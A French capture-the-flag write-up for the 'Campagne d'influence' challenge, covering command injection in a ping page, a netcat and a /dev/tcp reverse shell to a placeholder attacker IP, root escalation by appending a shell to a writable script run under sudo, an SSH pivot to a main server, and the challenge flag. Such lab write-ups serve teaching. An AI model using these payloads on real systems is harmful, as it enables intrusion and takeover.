



# Campagne d'influence

> La société nationale des transports listembourgeois nous a contacté, l'intégralité de leurs panneaux
publicitaires on été piratés et ils ne savent pas comment ! Ils avaient pourtant bien sécurisé leur serveur principal avec une connexion SSH robuste.
Tentez de reproduire l'attaque menée par la blackout society, tout ce que vous a fournis la SNTL, c'est ce endpoint de panneau publicitaire : https://esaipctf:8080


## Reconnaissance

En se connectant au challenge, on tombe sur cette page qui semble être notre panneau publicitaire :



On regarde un peut les autres ports qui nous ont été attribués et on arrive sur cette page :


C'est un service de test de disponibilité, ici la première chose qu'on peut tenter c'est de ping avec une injection de commande, le retour de la commande devrait s'afficher sur la page


Bingo ! Notre application est bien vulnérable à l'injection de commande, maintenant il est l'heure de crafter un petit payload qui va bien pour avoir un shell.

## Revshell

On se rend sur notre service de génération de shell préféré (dans mon cas https://www.revshells.com/) et on prépare sa payload : 

```bash 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <MON_IP> <MON_PORT> >/tmp/f
```


Ensuite je setup mon listener sur mon VPS, NGROK, ou tout autre machine que le service de ping peut atteindre : 

```bash
nc -lvnp 4444
```


Nous avons un premier shell.

## Privesc

En qualité de joueur de CTF invétéré, notre premier réflexe quand on arrive sur un système est de vérifier tout vecteur d'élévation de privilège simple, c'est ce que nous allons tester ici : 

```bash
sudo -l
```

Ici l'option "-l" (pour list) va nous permettre de vérifier si nous pouvons exécuter un script ou un binaire en tant que sudo.


Comme prévu, il y a bien un script exécutable en tant que sudo, rendons nous dans le répertoire qui contient ce script.


On y trouve deux scripts, f.sh et run.sh, intéressons nous à run.sh : 

```bash
#!/bin/bash

echo "Starting the media pull and forward process..."

/bin/bash /scripts/f.sh

echo "Media processing completed."
```
Ce script est uniquement là pour appeler f.sh, qui lui semble contenir la vraie fonctionnalité, allons donc voir :

```bash
#!/bin/bash

MEDIA_DIR="/app/tempmedia"
mkdir -p ${MEDIA_DIR}

MAIN_SERVER="root@main-server"
REMOTE_MEDIA_PATH="/usr/src/app/media/*"

SSH_KEY="/root/.ssh/id_rsa"

scp -i ${SSH_KEY} -P 22 -o StrictHostKeyChecking=no ${MAIN_SERVER}:${REMOTE_MEDIA_PATH} ${MEDIA_DIR}/
```

Ce script se connecte au serveur principal pour aller chercher un média à l'aide d'une clé SSH contenue dans ```/root/.ssh```, si nous avons la possibilité d'injecter du code dans un des deux scripts nous pourrions avoir un shell root étant donné que l'on peut exécuter run.sh en sudo et que run.sh fait appel à f.sh.


En vérifiant les droits des fichiers on voit que l'utilisateurs a le droit d'édition sur f.sh, c'est parfait pour nous ! 

On va pouvoir injecter un deuxième shell, en utilisant bash cette fois : 

```bash
sh -i >& /dev/tcp/<MON_IP>/<MON_PORT> 0>&1
```

Pour l'injecter dans mon f.sh, on fait un echo append : 


Ensuite plus qu'à exécuter run.sh en sudo et boom on est root :)


## Pivoting

Bon on est root, maintenant que faire ? Dans f.sh ça parlait de ssh et de main-server, il serait judicieux d'aller vérifier le contenu de /root/.ssh.



On a un fichier known_hosts qui peut potentiellement nous conduire au serveur principal.



On a une IP ! On va pouvoir tenter de s'y connecter : 


Nous voici sur le server principal en root qui plus est !

Il ne nous reste plus qu'a récupérer notre flag à et récupérer notre indice pour désamorcer la bombe :D


```FLAG : ECTF{b3w4r3_0f_p4ss1ng_tr41n}```
